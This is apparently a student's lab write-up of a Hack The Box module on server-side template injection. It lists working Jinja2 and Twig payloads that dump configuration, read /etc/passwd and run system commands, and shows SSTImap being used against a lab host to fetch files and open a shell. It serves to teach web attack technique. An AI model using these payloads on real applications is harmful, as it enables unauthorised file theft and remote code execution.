

# SSTI

## Identifying SSTI

### Identifying the Template Engine

<figure><figcaption></figcaption></figure>

Injecting the payload `${7*7}` into our sample web application results in the following behavior:

<figure><figcaption></figcaption></figure>

Since the injected payload was not executed, we follow the red arrow and now inject the payload `{{7*7}}`:

<figure><figcaption></figcaption></figure>

Therefore, we follow the green arrow and inject the payload `{{7*'7'}}`. The result will enable us to deduce the template engine used by the web application. In Jinja, the result will be `7777777`, while in Twig, the result will be `49`.

### PoCs - Questions

* Apply what you learned in this section and identify the Template Engine used by the web application. Provide the name of the template engine as the answer.

```
{{7*7}}
```

<figure><figcaption><p>Twig</p></figcaption></figure>

## Exploiting SSTI - Jinja2

Jinja is a template engine commonly used in Python web frameworks such as `Flask` or `Django`. This section will focus on a `Flask` web application. The payloads in other web frameworks might thus be slightly different.

### Information Disclosure

We can obtain the web application's configuration using the following SSTI payload:

```jinja2
{{ config.items() }}
```

<figure><figcaption></figcaption></figure>

We can use the following SSTI payload to dump all available built-in functions:

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

<figure><figcaption></figcaption></figure>

### Local File Inclusion (LFI)

We can use Python's built-in function `open` to include a local file. However, we cannot call the function directly; we need to call it from the `__builtins__` dictionary we dumped earlier. This results in the following payload to include the file `/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

<figure><figcaption></figcaption></figure>

### Remote Code Execution (RCE)

We can use functions provided by the `os` library, such as `system` or `popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in function `import`. This results in the following SSTI payload:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<figure><figcaption></figcaption></figure>

### PoCs - Questions

* Exploit the SSTI vulnerability to obtain RCE and read the flag.

First i see if the function 'builtins' is available:

```
{{ self.init.globals.builtins }}
```

<figure><figcaption></figcaption></figure>

Then, we will import the os module:

```
{{ self.init.globals.builtins.import('os') }}
```

And we can execute a command -->

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la /').read() }}
```

## Exploiting SSTI - Twig

### Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:

```twig
{{ _self }}
```

<figure><figcaption></figcaption></figure>

### Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file\_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

<figure><figcaption></figcaption></figure>

### Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:

```twig
{{ ['id'] | filter('system') }}
```

<figure><figcaption></figcaption></figure>

### Further Remarks

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md" %}

### PoCs - Questions

* Exploit the SSTI vulnerability to obtain RCE and read the flag

```
{{ ['cat /flag.txt'] | filter('system') }}
```

## SSTI Tools of the Trade

### Tools of the Trade

```shell-session
eldeim@htb[/htb]$ git clone https://github.com/vladko312/SSTImap

eldeim@htb[/htb]$ cd SSTImap

eldeim@htb[/htb]$ pip3 install -r requirements.txt

eldeim@htb[/htb]$ python3 sstimap.py 

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗ ║ ║ ║{║ _ __ ___ __ _ _ __
    ╚════╗ ╠════╗ ║ ║ ║ ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║ ║ ║ ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝ ╚═╝ ╚╦╝ |_| |_| |_|\__,_| .__/
                             │ | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4
[-] SSTImap requires target URL (-u, --url), URLs/forms file (--load-urls / --load-forms) or interactive mode (-i, --interactive)
```

To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:

```shell-session
eldeim@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test

<SNIP>

[+] SSTImap identified the following injection point:

  Query parameter: name
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:
    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code
```

As we can see, SSTImap confirms the SSTI vulnerability and successfully identifies the `Twig` template engine. It also provides capabilities we can use during exploitation. For instance, we can download a remote file to our local machine using the `-D` flag:

&#x20; SSTI Tools of the Trade & Preventing SSTI

```shell-session
eldeim@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

<SNIP>

[+] File downloaded correctly
```

Additionally, we can execute a system command using the `-S` flag:

```shell-session
eldeim@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

<SNIP>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we can use `--os-shell` to obtain an interactive shell:

```shell-session
eldeim@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

<SNIP>

[+] Run commands on the operating system.
Linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux $ whoami
www-data
```
